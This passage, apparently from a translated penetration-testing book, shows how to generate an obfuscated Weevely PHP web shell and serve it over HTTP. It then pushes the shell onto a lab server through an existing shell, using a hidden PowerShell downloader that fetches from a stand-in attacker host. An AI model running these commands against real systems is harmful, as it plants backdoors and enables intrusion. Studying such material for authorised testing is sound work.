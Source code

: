 首先，我们需要通过执行`weevely generate`命令生成一个新的 shell。语法如下：

```
**root@kali:/var/www/html# weevely generate <password> </path/to/shell.php>**

```

Weevely 将在我们 Kali 机器上指定路径生成一个密码保护、混淆过的 PHP Web shell：

```
root@kali:/var/www/html# **weevely generate ECorpAppTest11251**
 **/var/www/html/shell.php**
Generated backdoor with password 'ECorpAppTest11251' in '/var/www/html/shell.php' of 742 byte size.
root@kali:/var/www/html#
```

为了快速提供新生成的 Web shell，我们可以使用一行命令在 Kali Linux 实例上启动一个临时 Web 服务器。Python 自带一个`SimpleHTTPServer`模块，可以从终端调用，来通过 HTTP 提供文件。不需要调整 Apache 或 NGINX 设置。默认情况下，`SimpleHTTPServer`模块会将当前目录的内容提供给 Web。

在与 Weevely 生成的文件`shell.php`（`/var/www/html`）相同的目录下，我们可以使用带有`-m`开关的 python 来加载`SimpleHTTPServer`模块。最后一个参数是 Web 服务器监听的端口，本例中为端口`80`：

```
root@kali:/var/www/html# **python -m SimpleHTTPServer 80**
Serving HTTP on 0.0.0.0 port 80 ...
```

困难的部分已经过去。现在我们只需通过现有的 shell `xampp.php`将`shell.php`传输到目标服务器。可以通过几种方式实现这一点。在 Linux 服务器上，`wget`几乎总是可用且易于使用。对于 Windows，你可以利用内置的`bitsadmin.exe`或更炫酷的`powershell.exe`一行命令。

我们可以利用`curl`和以下模板，在远程主机上执行 PowerShell 命令，并有效地下载一个更高级的 Weevely shell。你只需要插入合适的值：

```
curl -G "[current shell url]" --data-urlencode **"cmd=[command to execute]" &password=ECorpAppTest11251**

```

要执行的命令，在本例中将是以下内容：

```
**powershell -w hidden -noni -nop -c (new-object net.webclient).DownloadFile('http://attacker.c2/shell.php','c:\xampp\htdocs\xampp\test.php')**

```

为了悄无声息地成功执行 PowerShell 文件下载器，需要一些参数开关。`-w`开关将窗口样式设置为`hidden`，防止在执行过程中出现任何不必要的弹出窗口。`-nop`和`-noni`开关将分别禁用配置文件加载和用户交互，从而在执行下载器时提供更多的隐匿性。

`-c` 选项接收一个任意的 PowerShell 脚本块来执行。为了我们的目的，我们将创建一个新的 `Net.Webclient` 对象，并调用它的 `DownloadFile` 方法，将源和目标作为参数传递。

这个 PowerShell 一行命令示例将从 `SimpleHTTPServer` 获取 Weevely shell 内容，并将其放入应用服务器的相应 `htdocs` 目录中：

```
root@kali:/var/www/html# curl -G http://api.ecorp.local/xampp/xampp.php --data-urlencode **"password=ECorpAppTest11251& cmd=powershell -w hidden -noni -nop -c (new-object net.webclient).DownloadFile('http://attacker.c2/test.php','c:\xampp\htdocs\xampp\test.php')"**
root@kali:/var/www/html#
```
